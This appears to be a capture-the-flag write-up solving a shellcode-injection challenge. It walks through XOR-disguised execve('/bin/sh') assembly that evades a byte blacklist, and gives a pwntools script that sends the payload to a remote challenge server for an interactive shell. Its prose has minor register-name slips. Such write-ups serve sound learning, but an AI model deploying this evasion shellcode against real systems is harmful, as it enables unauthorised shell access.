







- Basic info:
- 
    - It seems we want to try to bypass the canary and inject a shellcode, at the same time dealing with PIE
- Let's decompile it first
    - 
- It's obvious that the shell code cannot include something like binsh or flag, so im thinking we let the shellcode direct to libc and get the shell there, but this would be pretty tiring cause PIE is enabled
- Let's run it
    - 
- wait, we don't bump in the stack check? => maybe the canary doesn't even have a use here
- and we can also test for the blacklist
    - 
- Upon a closer look, I think PIE can also be ignored cause the pg literally runs what we give it, so there's no relocation or anythin, we don't have to leak any addresses because it runs our code for us, just have to keep our payload under 60 bytes and avoud the blacklist to win
    - 
- Our target:
    - 
- Due to there being a LOT of blacklisted bytes, msfvenom might not work here
- Let's start by constructing our shellcode in asm
- Note that how we built the disguised bytes:
```python
real = b"/bin/sh\x00"
blacklist = bytes.fromhex("3b5462696e7368f6d2c05fc9666c6167")

for key in range(256):
    disguised = bytes(b ^ key for b in real)
    if key not in blacklist and all(b not in blacklist for b in disguised):
        break
else:
    raise SystemExit("no single-byte key works — need a fancier scheme")

rax_const = int.from_bytes(disguised, "little")
rbx_const = int.from_bytes(bytes([key])*8, "little")
print(f"key = {hex(key)}")
print(f"mov rax, {hex(rax_const)}")
print(f"mov rbx, {hex(rbx_const)}")
```
```assembly
BITS 64
xor ebp, ebp        ; cup ebp ← 0        (make a zero, using a clean instruction)
mov esi, ebp        ; cup rsi ← 0        (copy the zero; writing esi clears all of rsi)
mov edx, ebp        ; cup rdx ← 0        (same)
mov rax, 0x0d657e2263646f22; cup rax ← disguised /bin/sh bytes (remember! REVERSE ORDER)
mov rbx, 0x0d0d0d0d0d0d0d0d      ; cup rbx ← the XOR key
xor rax, rbx        ; cup rax ← real "/bin/sh\0"   (remove the disguise)
push rax            ; write those 8 bytes into stack memory; rsp now points at them
mov rdi, rsp        ; cup rdi ← that memory address
push 0x3c           ; write 60 to stack
pop rax             ; cup rax ← 60
dec al              ; cup rax ← 59 (0x3b)   (the execve number, built without the banned byte)
syscall             ; kernel: run execve(rdi, rsi, rdx) = execve("/bin/sh",0,0)
```
- Let's spend some time explaning everything.
    - We want to start from the target back to the beginning, so we know that we must call a `syscall` right, and the kernel runs the command in `rax`, so we want `rax` to be `execve`, which is `0x3b` (which is 59 in decimal). However, we cannot push `0x3b` directly on `rax` due to it being blacklisted, so we push `0x3c` and `dec al` (which minuses 1) 
        - Note that 
    - Remember we want `rsi` and `rdx` to be 0? Can we just `xor` them against itself? NO! because the bytes are banned too (f6,d2). An easy way to bypass this is set another regi to `0` and copy it over
    - So what we did is take `ebp` and xor it against itself, and `mov` (copy) the 0 in it to `esi` and `edx`, which makes `rdi` and `rdx` 0.
    - Ok we only have to deal with `rdi` now, where we want it to CONTAIN the pointer that points to `/bin/sh`. Two difficulties we have to overcome:
        - `rdi` needs a pointer, so we want to first push `/bin/sh` onto the stack and copy the stack pointer `rsi` to `rdi`, easy right? But the hex for `/bin/sh` is banned, so we gotta somehow overcome this, this leads to the 2nd difficulty
        - `XOR disguising`! We pick a key byte, and bit for bit xor `/bin/sh` with the key, then use the `xor` asm to xor again with the key to retrieve the original string 
            - (Note that memory : little endian, and we wanna pad `/bin/sh` to 8 bytes, so add a ending \0)
- Let's finally build our exploit:
```python
from pwn import *
context.arch = "amd64" 

sc = asm("""
xor ebp, ebp
mov esi, ebp
mov edx, ebp
mov rax, 0x0d657e2263646f22
mov rbx, 0x0d0d0d0d0d0d0d0d
xor rax, rbx
push rax
mov rdi, rsp
push 0x3c
pop rax
dec al
syscall
""")

p = remote("154.57.164.73", 31796)   
p.recvline()          # eat the "Hey, just because..." 
p.send(sc)            
p.interactive()     
```

